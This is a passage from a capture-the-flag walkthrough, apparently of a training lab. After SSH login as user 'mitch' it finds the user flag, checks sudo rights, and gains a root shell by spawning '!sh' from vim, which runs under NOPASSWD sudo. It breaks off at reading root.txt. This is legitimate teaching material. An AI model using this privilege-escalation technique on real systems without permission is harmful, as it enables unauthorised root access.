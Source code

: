 The ssh connect works, with the password we procured earlier, and we have shell as `mitch`.

### 7. What's the user flag?

Now that we've got shell, we can search for a user flag.
```
$ ls -lah
total 36K
drwxr-x--- 3 mitch mitch 4,0K aug 19  2019 .
drwxr-xr-x 4 root  root  4,0K aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3,7K sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4,0K aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
$ cat user.txt
G00d j0b, keep up!
```

### 8. Is there any other user in the home directory? What's its name?

Lets dig in deep, and see what other users are on the system.

```
$ cd /home; ls 
mitch  sunbath
```

### 9. What can you leverage to spawn a privileged shell?

Next we need to look for a priviledge escalation vector. Lets start with a `sudo -l` and see what we can run as `sudo`(root).

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

### 10. What's the root flag?

Now we've found our escalation vector let's exploit it; then navigate to the `/root` directory in search for the root flag.

```
$ sudo vim
```
_While in the Vim editor, spawn a shell with command:_ `!sh`
```
# whoami
root
# cd /root; ls -lah
total 28K
drwx------  4 root root 4,0K aug 17  2019 .
drwxr-xr-x 23 root root 4,0K aug 19  2019 ..
-rw-r--r--  1 root root 3,1K oct 22  2015 .bashrc
drwx------  2 root root 4,0K aug 17  2019 .cache
drwxr-xr-x  2 root root 4,0K aug 17  2019 .nano
-rw-r--r--  1 root root  148 aug 17  2015 .profile
-rw-r--r--  1 root root   24 aug 17  2019 root.txt
# cat root.txt
```